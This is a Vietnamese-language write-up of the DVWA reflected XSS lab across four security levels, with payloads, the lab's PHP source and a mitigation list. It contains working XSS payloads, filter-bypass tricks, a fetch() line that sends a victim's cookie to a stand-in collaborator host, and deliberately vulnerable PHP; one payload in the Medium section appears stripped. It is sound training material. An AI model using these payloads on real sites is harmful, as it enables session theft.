# **Reflected Cross-Site Scripting (Reflected XSS)**

## **Tổng quan**

Reflected XSS là lỗ hổng cho phép kẻ tấn công chèn mã độc, thường là **JavaScript**, vào dữ liệu đầu vào của ứng dụng web. Dữ liệu này được máy chủ phản hồi ngay lập tức trong trang web mà không được kiểm tra hoặc mã hóa an toàn.

Lỗ hổng này thường xuất hiện khi ứng dụng:

* Nhận dữ liệu từ URL, form tìm kiếm hoặc tham số truy vấn.
* Đưa trực tiếp dữ liệu người dùng vào nội dung HTML phản hồi.
* Không thực hiện **Output Encoding** phù hợp.
* Không kiểm tra hoặc lọc các thẻ và thuộc tính nguy hiểm.
* Không sử dụng các cơ chế bảo vệ như **Content Security Policy (CSP)**.

Kẻ tấn công thường tạo một đường dẫn chứa payload XSS trong tham số URL, sau đó lừa nạn nhân truy cập đường dẫn đó.

Ví dụ:

```html
http://example.com/search?name=<script>alert(1)</script>
```

Nếu ứng dụng đưa trực tiếp giá trị của tham số `name` vào trang web mà không mã hóa, trình duyệt của nạn nhân có thể thực thi đoạn JavaScript được chèn vào.

Khác với **Stored XSS**, payload của Reflected XSS không được lưu trong cơ sở dữ liệu. Payload chỉ xuất hiện trong phản hồi của request hiện tại và thường cần nạn nhân truy cập một đường dẫn độc hại hoặc gửi một form do kẻ tấn công chuẩn bị.

Thông qua Reflected XSS, kẻ tấn công có thể đánh cắp thông tin phiên đăng nhập, thay đổi nội dung trang, chuyển hướng người dùng, thu thập dữ liệu hoặc thực hiện hành động dưới danh nghĩa nạn nhân.

Trong DVWA, mục tiêu của bài lab là phân tích cách ứng dụng nhận dữ liệu từ người dùng và phản chiếu dữ liệu đó lên trang web. Ở mỗi mức bảo mật **Low, Medium, High và Impossible**, ứng dụng sẽ bổ sung các cơ chế lọc dữ liệu, mã hóa đầu ra hoặc kiểm tra đầu vào nhằm hạn chế và ngăn chặn Reflected XSS.


## **Security Level**
### **Low**
#### **Cách khai thác**


- Khi truy cập, web cho ta một form cho phép nhập chuỗi rồi in ra màn hình `Hello input_string`




- Khi quan sát trong Devtool, ta có thể thấy được chuỗi được đặt trong cặp thẻ `<pre>`
- Ta thử nhập hàm `alert()` của JS 

```javascript
<script>alert('XSS')</script>
```



- Kết quả, ta thấy web hiện một popup, điều đó chứng tỏ web tồn tại lỗ hổng XSS



- Ta quan sát chi tiết request trong BurpSuite, ta thấy được request được gửi đi với method `GET`, kết hợp với một tham số `name`



- Khi input từ tham số name được truyền thẳng vào HTML của web mà không có bất kì validate nào 
- Ta tiếp tục thực hiện hành động lấy cookie của người dùng bằng cách tạo 1 request đến **Burp Collaborator** (*hoặc server mà ta kiểm soát*) bằng payload

```javascript
<script>fetch('https://burpcollaborator_server.com/steal?cookie=' + btoa(document.cookie));</script>
```



- Sau khi payload được điền vào rồi submit, ta thấy có những request DNS và HTTP tới server của chúng ta
- Và từ request HTTP ta có thể lấy được toàn bộ cookie của người dùng

#### **Phân tích mã nguồn**
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

```php
header ("X-XSS-Protection: 0");
```

- Khi bắt đầu, web đã yêu cầu trình duyệt tắt chế độ chặn XSS của trình duyệt (*nếu có*)

```php
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
```

- Đây là nguyên nhân chính gây ra XSS, web không thực hiện mã hóa hay validate dữ liệu trước khi ghép vào HTML

### **Medium**
#### **Cách khai thác**


- Ở level này, ta đã thấy được rằng web dường như đã lọc và bỏ đi thẻ `<script>` trong payload, từ đó chỉ còn `alert(1)` bây giờ đóng vai trò như một chuỗi thông thường
- Vì vậy ta thực hiện encode `<script>` sang dạng HTML để bypass được bộ lọc của web

```html
&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;alert('XSS')</script>
```



- Với payload này, ta có thế thấy được nó đã vượt qua được bộ lọc của web
- Tiếp tục encode thêm thẻ `</script>`



- Ta thấy mặc dù web đã decode thành `<script>` nhưng nó lại ở dạng string, nên JS không thể thực thi code được 

**CÁCH 1**
- Nếu web thực hiện filter đi chuỗi `<script>`, ta biến đổi chuỗi thành `<scr<script>ipt>`, nếu web không thực hiện thay thế đệ quy, cuối cũng vẫn sẽ thành thẻ `<script>` và có khả năng thực thi bởi JS

```php
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```



- Kết quả là bộ lọc đã bị bypass

**CÁCH 2**
- Ta thử khai thác bằng thẻ `` kết hợp với event `onerror`:

```javascript
</pre>
```



- Kết quả, web đã thực thi hàm `alert()` và trả về 1 popup



- Thẻ `</pre>` có tác dụng phá vỡ cấu trúc, nó kết thúc sớm thẻ `<pre>` đằng trước và cho phép thẻ `` hoạt động ở bên ngoài


#### **Phân tích mã nguồn**
```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

- Đúng như cách hoạt động của web, nó thực hiện thay tất cả các thẻ `<script>` thành chuỗi rỗng
- Kết quả tất cả đều trở thành string khi đi với thẻ `<script>`
- Nhưng vấn đề là web chỉ thực hiện filter thẻ `<script>` mà lại bỏ qua thẻ ``

## **High**
#### **Cách khai thác**


- Với payload tương tự trong level **Medium**, nó vẫn hiện popup với thẻ ``

#### **Phân tích mã nguồn**
```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

- Với level này, việc validate đã chi tiết hơn nhưng vẫn với phạm vi thẻ `<script>`

## **Impossible**
#### **Phân tích mã nguồn**
```php

<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

- Ở level này, ta có thể thấy input không được truyền thẳng vào HTML mà trước đó sẽ chuyển tất cả các kí tự HTML có trong input của người dùng thành dạng "an toàn", tiếp đó rồi mới truyền vào HTML bằng biến `$name`

## **Cách phòng chống**
- Không đưa trực tiếp dữ liệu người dùng vào HTML.
- Mã hóa đầu ra đúng ngữ cảnh (**Output Encoding**).
- Trong PHP, dùng `htmlspecialchars()` với `ENT_QUOTES` và `UTF-8`.
- Kiểm tra dữ liệu đầu vào bằng **allowlist**.
- Không lọc XSS chỉ bằng `str_replace()` hoặc regex đơn giản.
- Tránh chèn dữ liệu không tin cậy vào JavaScript, CSS hoặc URL.
- Sử dụng framework có cơ chế tự động escape.
- Cấu hình **Content Security Policy (CSP)**.
- Không dựa vào `X-XSS-Protection` vì đã lỗi thời.


